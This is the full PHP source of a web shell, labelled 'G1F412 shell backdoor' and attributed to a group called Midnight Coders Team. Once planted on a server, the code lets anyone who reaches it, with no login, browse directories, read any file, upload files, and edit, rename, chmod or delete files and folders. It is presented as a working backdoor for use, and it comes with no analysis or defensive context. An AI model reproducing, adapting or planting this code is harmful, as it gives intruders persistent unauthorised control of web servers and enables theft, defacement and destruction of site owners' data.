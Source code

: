 # file-MCT.php
&lt;?php set_time_limit(0); error_reporting(0);  if(get_magic_quotes_gpc()){ foreach($_POST as $key=>$value){ $_POST[$key] = stripslashes($value);  } } echo '&lt;!DOCTYPE HTML> &lt;HTML> &lt;HEAD> &lt;link href="" rel="stylesheet" type="text/css"> &lt;title>G1F412 shell backdoor&lt;/title>&lt;link rel="SHORTCUT ICON"  href="http://www.hi5style.com/gr/heart.gif"> &lt;style> body{ font-family: "Courier", cursive; color: #fff; background-color: #000; background-image:url("https://f.top4top.io/p_17717wd2v0.gif");align-content: fixed;background-size:130%; } text-shadow:0px 0px 1px #757575; } #content tr:hover{ background-color: #000; text-shadow:0px 0px 10px #fff; } #content .first{ background-color: dark turquoise; } #content .first:hover{ background-color: dark turquoise; text-shadow:0px 0px 1px #757575; } H1{ font-family: "Courier", cursive; color: #fff; } a{ color: #fff; text-decoration: none; } a:hover{ color: #fff; text-shadow:0px 0px 5px #ffffff; } input,select,textarea{ border: 1px #fff solid; -moz-border-radius: 5px; -webkit-border-radius:5px; border-radius:5px; } &lt;/style> &lt;/HEAD> &lt;BODY> &lt;br> &lt;center>&lt;/center> &lt;h1>&lt;center>&lt;a href="https://instagram.com/midnight_coders_team?igshid=1bv58zw6nsgjs">Midnight Coders Team&lt;/a>&lt;/center>&lt;/h1> &lt;table width="700" border="0" cellpadding="3" cellspacing="1" align="center"> &lt;tr>&lt;td>Current Path : '; if(isset($_GET['path'])){ $path = $_GET['path']; }else{ $path = getcwd(); } $path = str_replace('\\','/',$path); $paths = explode('/',$path);  foreach($paths as $id=>$pat){ if($pat == '' &amp;&amp; $id == 0){ $a = true; echo '&lt;a href="?path=/">/&lt;/a>'; continue; } if($pat == '') continue; echo '&lt;a href="?path='; for($i=0;$i&lt;=$id;$i++){ echo "$paths[$i]"; if($i != $id) echo "/"; } echo '">'.$pat.'&lt;/a>/'; } echo '&lt;/td>&lt;/tr>&lt;tr>&lt;td>'; if(isset($_FILES['file'])){ if(copy($_FILES['file']['tmp_name'],$path.'/'.$_FILES['file']['name'])){ echo '&lt;font color="green">Upload File Success!&lt;/font>&lt;br />'; }else{ echo '&lt;font color="red">Failed for Upload File!&lt;/font>&lt;br />'; } } echo '&lt;form enctype="multipart/form-data" method="POST"> Upload File : &lt;input type="file" name="file" /> &lt;input type="submit" value="upload" /> &lt;/form> &lt;/td>&lt;/tr>'; if(isset($_GET['filesrc'])){ echo "&lt;tr>&lt;td>Current File : "; echo $_GET['filesrc']; echo '&lt;/tr>&lt;/td>&lt;/table>&lt;br />'; echo('&lt;pre>'.htmlspecialchars(file_get_contents($_GET['filesrc'])).'&lt;/pre>'); }elseif(isset($_GET['option']) &amp;&amp; $_POST['opt'] != 'delete'){ echo '&lt;/table>&lt;br />&lt;center>'.$_POST['path'].'&lt;br />&lt;br />'; if($_POST['opt'] == 'chmod'){ if(isset($_POST['perm'])){ if(chmod($_POST['path'],$_POST['perm'])){ echo '&lt;font color="green">Change Permission Success~!&lt;/font>&lt;br />'; }else{ echo '&lt;font color="red">Failed for Change Permission !&lt;/font>&lt;br />'; } } echo '&lt;form method="POST"> Permission : &lt;input name="perm" type="text" size="4" value="'.substr(sprintf('%o', fileperms($_POST['path'])), -4).'" /> &lt;input type="hidden" name="path" value="'.$_POST['path'].'"> &lt;input type="hidden" name="opt" value="chmod"> &lt;input type="submit" value="Go" /> &lt;/form>'; }elseif($_POST['opt'] == 'rename'){ if(isset($_POST['newname'])){ if(rename($_POST['path'],$path.'/'.$_POST['newname'])){ echo '&lt;font color="green">Change Name Success!&lt;/font>&lt;br />'; }else{ echo '&lt;font color="red">Failed for Change Name !&lt;/font>&lt;br />'; } $_POST['name'] = $_POST['newname']; } echo '&lt;form method="POST"> New Name : &lt;input name="newname" type="text" size="20" value="'.$_POST['name'].'" /> &lt;input type="hidden" name="path" value="'.$_POST['path'].'"> &lt;input type="hidden" name="opt" value="rename"> &lt;input type="submit" value="Go" /> &lt;/form>'; }elseif($_POST['opt'] == 'edit'){ if(isset($_POST['src'])){ $fp = fopen($_POST['path'],'w'); if(fwrite($fp,$_POST['src'])){ echo '&lt;font color="green">Edit File Success!&lt;/font>&lt;br />'; }else{ echo '&lt;font color="red">Failed for Edit File!&lt;/font>&lt;br />'; } fclose($fp); } echo '&lt;form method="POST"> &lt;textarea cols=80 rows=20 name="src">'.htmlspecialchars(file_get_contents($_POST['path'])).'&lt;/textarea>&lt;br /> &lt;input type="hidden" name="path" value="'.$_POST['path'].'"> &lt;input type="hidden" name="opt" value="edit"> &lt;input type="submit" value="Go" /> &lt;/form>'; } echo '&lt;/center>'; }else{ echo '&lt;/table>&lt;br />&lt;center>'; if(isset($_GET['option']) &amp;&amp; $_POST['opt'] == 'delete'){ if($_POST['type'] == 'dir'){ if(rmdir($_POST['path'])){ echo '&lt;font color="green">Delete Dir Success!&lt;/font>&lt;br />'; }else{ echo '&lt;font color="red">Failed for Delete Dir!&lt;/font>&lt;br />'; } }elseif($_POST['type'] == 'file'){ if(unlink($_POST['path'])){ echo '&lt;font color="green">Delete File Success!&lt;/font>&lt;br />'; }else{ echo '&lt;font color="red">Failed for Edit File!&lt;/font>&lt;br />'; } } } echo '&lt;/center>'; $scandir = scandir($path); echo '&lt;div id="content">&lt;table width="700" border="0" cellpadding="3" cellspacing="1" align="center"> &lt;tr class="first"> &lt;td>&lt;center>Name&lt;/center>&lt;/td> &lt;td>&lt;center>Size&lt;/center>&lt;/td> &lt;td>&lt;center>Permissions&lt;/center>&lt;/td> &lt;td>&lt;center>Options&lt;/center>&lt;/td> &lt;/tr>';  foreach($scandir as $dir){ if(!is_dir("$path/$dir") || $dir == '.' || $dir == '..') continue; echo "&lt;tr> &lt;td>&lt;a href=\"?path=$path/$dir\">$dir&lt;/a>&lt;/td> &lt;td>&lt;center>--&lt;/center>&lt;/td> &lt;td>&lt;center>"; if(is_writable("$path/$dir")) echo '&lt;font color="green">'; elseif(!is_readable("$path/$dir")) echo '&lt;font color="red">'; echo perms("$path/$dir"); if(is_writable("$path/$dir") || !is_readable("$path/$dir")) echo '&lt;/font>';  echo "&lt;/center>&lt;/td> &lt;td>&lt;center>&lt;form method=\"POST\" action=\"?option&amp;path=$path\"> &lt;select name=\"opt\"> &lt;option value=\"\">&lt;/option> &lt;option value=\"delete\">Delete&lt;/option> &lt;option value=\"chmod\">Chmod&lt;/option> &lt;option value=\"rename\">Rename&lt;/option> &lt;/select> &lt;input type=\"hidden\" name=\"type\" value=\"dir\"> &lt;input type=\"hidden\" name=\"name\" value=\"$dir\"> &lt;input type=\"hidden\" name=\"path\" value=\"$path/$dir\"> &lt;input type=\"submit\" value=\">\" /> &lt;/form>&lt;/center>&lt;/td> &lt;/tr>"; } echo '&lt;tr class="first">&lt;td>&lt;/td>&lt;td>&lt;/td>&lt;td>&lt;/td>&lt;td>&lt;/td>&lt;/tr>'; foreach($scandir as $file){ if(!is_file("$path/$file")) continue; $size = filesize("$path/$file")/1024; $size = round($size,3); if($size >= 1024){ $size = round($size/1024,2).' MB'; }else{ $size = $size.' KB'; }  echo "&lt;tr> &lt;td>&lt;a href=\"?filesrc=$path/$file&amp;path=$path\">$file&lt;/a>&lt;/td> &lt;td>&lt;center>".$size."&lt;/center>&lt;/td> &lt;td>&lt;center>"; if(is_writable("$path/$file")) echo '&lt;font color="green">'; elseif(!is_readable("$path/$file")) echo '&lt;font color="red">'; echo perms("$path/$file"); if(is_writable("$path/$file") || !is_readable("$path/$file")) echo '&lt;/font>'; echo "&lt;/center>&lt;/td> &lt;td>&lt;center>&lt;form method=\"POST\" action=\"?option&amp;path=$path\"> &lt;select name=\"opt\"> &lt;option value=\"\">&lt;/option> &lt;option value=\"delete\">Delete&lt;/option> &lt;option value=\"chmod\">Chmod&lt;/option> &lt;option value=\"rename\">Rename&lt;/option> &lt;option value=\"edit\">Edit&lt;/option> &lt;/select> &lt;input type=\"hidden\" name=\"type\" value=\"file\"> &lt;input type=\"hidden\" name=\"name\" value=\"$file\"> &lt;input type=\"hidden\" name=\"path\" value=\"$path/$file\"> &lt;input type=\"submit\" value=\">\" /> &lt;/form>&lt;/center>&lt;/td> &lt;/tr>"; } echo '&lt;/table> &lt;/div>'; } echo '&lt;br />&lt;font color="red">&lt;/font>&lt;font color="red">shell backdoor&lt;/font> &lt;center>@Copyright 2020 | IG: &lt;a href="https://instagram.com/midnight_coders_team?igshid=1bv58zw6nsgjs">Midnight Coders Team&lt;/a>&lt;/center> &lt;center>AUTHOR: &lt;a href="https://instagram.com/gifarirahman_exp?igshid=zrxa2b35pzxp">G1F412&lt;/a>&lt;/center> &lt;/BODY> &lt;/HTML>'; function perms($file){ $perms = fileperms($file);  if (($perms &amp; 0xC000) == 0xC000) { // Socket $info = 's'; } elseif (($perms &amp; 0xA000) == 0xA000) { // Symbolic Link $info = 'l'; } elseif (($perms &amp; 0x8000) == 0x8000) { // Regular $info = '-'; } elseif (($perms &amp; 0x6000) == 0x6000) { // Block special $info = 'b'; } elseif (($perms &amp; 0x4000) == 0x4000) { // Directory $info = 'd'; } elseif (($perms &amp; 0x2000) == 0x2000) { // Character special $info = 'c'; } elseif (($perms &amp; 0x1000) == 0x1000) { // FIFO pipe $info = 'p'; } else { // Unknown $info = 'u'; }  // Owner $info .= (($perms &amp; 0x0100) ? 'r' : '-'); $info .= (($perms &amp; 0x0080) ? 'w' : '-'); $info .= (($perms &amp; 0x0040) ? (($perms &amp; 0x0800) ? 's' : 'x' ) : (($perms &amp; 0x0800) ? 'S' : '-'));  // Group $info .= (($perms &amp; 0x0020) ? 'r' : '-'); $info .= (($perms &amp; 0x0010) ? 'w' : '-'); $info .= (($perms &amp; 0x0008) ? (($perms &amp; 0x0400) ? 's' : 'x' ) : (($perms &amp; 0x0400) ? 'S' : '-'));  // World $info .= (($perms &amp; 0x0004) ? 'r' : '-'); $info .= (($perms &amp; 0x0002) ? 'w' : '-'); $info .= (($perms &amp; 0x0001) ? (($perms &amp; 0x0200) ? 't' : 'x' ) : (($perms &amp; 0x0200) ? 'T' : '-'));  return $info; } ?>

